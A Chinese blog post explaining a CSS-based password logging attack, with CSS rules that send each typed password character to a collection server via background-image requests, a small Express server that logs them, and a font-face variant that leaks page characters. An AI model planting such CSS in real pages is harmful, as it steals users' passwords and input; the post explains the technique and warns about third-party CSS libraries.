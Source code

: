 ```yaml
---
layout: post
title:  "CSS攻击：记录用户密码"
date:   2018-03-01
categories: CSS
author: 张翔
location: ShangHai, China
cover: "https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article21/vulnerable-to-css-exfil-attack.jpg"
description: CSS也能成为攻击者的使用工具，用来记录用户的输入数据。
---
```

---
简单的CSS代码，甚至不符合图灵完备的语言，但是也能成为一些攻击者的工具，下面简单介绍一下如何使用CSS去记录用户的密码。但是这些CSS脚本会出现在第三方CSS库中，所以使用第三方CSS库也需要谨慎，确保代码安全。
直接上代码解析：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
input[type="password"][value$="1"] { 
    background-image: url("http://localhost:3000/1"); 
}
input[type="password"][value$="2"] { 
    background-image: url("http://localhost:3000/2"); 
}
```

以上是**部分代码**,我们来解析一下CSS代码
`input[type="password"]`是css选择器，作用是选择密码输入框，`[value$="0"]`表示匹配输入的值是以0结尾的。
所以：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
```
上面代码的意思就是如果你在密码框中输入0，就去请求`http://localhost:3000/0`接口，但是浏览器**默认情况下**是不会将用户输入的值存储在**value属性**中，但是有的框架会同步这些值，例如**React**。
所以只要使用了如下图的脚本就能去存储用户的输入数据信息。
![data](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article21/data.jpg)

我们再来看一下服务器端的代码
```javaScript
const express = require("express");
const app = express();

app.get("/:key", (req, res) => {
process.stdout.write(req.params.key);
return res.sendStatus(400);
});

app.listen(3000, () => console.log("启动，监听3000端口"));
```

使用**express**创建服务器，监听**3000端口**，只要请求`http://localhost:3000/:key`，就能输出key的值，**就能在服务器上记录输入的值**。
所以只要在每输入一个值都匹配，然后通过 `background-image` 去请求一个已经准备好的**接口**，就能记录用户的输入。

类似的方法记录用户的内容的CSS代码
```CSS
@font-face {
  font-family: blah;
  src: url('http://localhost:3000/a') format('woff');
  unicode-range: U+85;
}
html {
  font-family: blah, sans-serif;
}
```
你使用的的css的简单的**字体库**，只要你的页面中包含a，就会去请求`http://localhost:3000/a`，这样就能知道你的页面中包含有a字符。
